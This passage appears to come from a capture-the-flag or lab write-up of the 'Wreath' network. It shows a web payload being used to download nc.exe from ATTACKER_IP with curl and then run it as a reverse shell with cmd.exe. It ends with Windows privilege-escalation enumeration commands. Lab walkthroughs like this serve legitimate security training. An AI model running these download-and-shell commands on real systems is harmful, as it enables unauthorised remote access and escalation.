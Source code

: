 payload upload successful, now we run command on webpage.

![](/Images/wreath/Screenshot-2021-04-07-183014-1024x253.png)

now upload nc.exe to get shell,

```
sudo python3 -m http.server 80                    # our machine

curl http://ATTACKER_IP/nc.exe -o c:\\windows\\temp\\nc-Munaz.exe

powershell.exe c:\\windows\\temp\\nc-Munaz.exe IP 25500 -e cmd.exe # execute
```

![](/Images/wreath/Screenshot-2021-04-07-190611.png)

Finally we have Reverse shell on our final machine, only thing left is PrivEsc, check for privilege groups and more.

```
Basic Enumeration Command

whoami /priv

whoami /groups

wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```

